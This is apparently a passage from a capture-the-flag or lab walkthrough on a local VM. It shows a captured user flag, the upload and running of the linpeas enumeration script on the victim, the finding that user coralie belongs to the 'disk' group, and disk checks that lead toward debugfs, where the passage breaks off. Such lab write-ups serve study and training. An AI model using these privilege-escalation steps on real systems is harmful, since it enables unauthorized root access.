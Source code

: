 `cat ./user.txt`:
```
aab176494645050f3e8a7b081d443d3b ←
```

![Attacker](https://custom-icon-badges.demolab.com/badge/Attacker-e57373?logo=kali-linux_white_32&logoColor=white)

`scp /home/kali/tools/linpeas.sh coralie@192.168.56.142:/home/coralie/linpeas.sh`:
```
coralie@192.168.56.142's password: 
linpeas.sh                                   100%  840KB  12.3MB/s   00:00 ←
```

![Victim: coralie](https://img.shields.io/badge/Victim-coralie-64b5f6?logo=linux&logoColor=white)

`chmod u+x ./linpeas.sh`

`./linpeas.sh > ./linpeas_output.txt`

`cat -n ./linpeas_output.txt`:
```
[...]

   482                                 ╔═══════════════════╗
   483  ═══════════════════════════════╣ Users Information 
   484                                 ╚═══════════════════╝
   485  ╔══════════╣ My user
   486  ╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#users
   487  uid=1001(coralie) gid=1001(coralie) groups=1001(coralie),6(disk) ←

[...]
```

`df -h`:
```
Filesystem      Size  Used Avail Use% Mounted on
udev            962M     0  962M   0% /dev
tmpfs           197M  552K  197M   1% /run
/dev/sda1        29G  4.4G   23G  17% / ←
tmpfs           984M     0  984M   0% /dev/shm
tmpfs           5.0M     0  5.0M   0% /run/lock
tmpfs           197M     0  197M   0% /run/user/1001
```

`lsblk`:
```
NAME   MAJ:MIN RM  SIZE RO TYPE MOUNTPOINTS
sda      8:0    0   30G  0 disk 
├─sda1   8:1    0   29G  0 part / ←
├─sda2   8:2    0    1K  0 part 
└─sda5   8:5    0  975M  0 part [SWAP]
sr0     11:0    1 1024M  0 rom  
```

`which debugfs`:
```
```
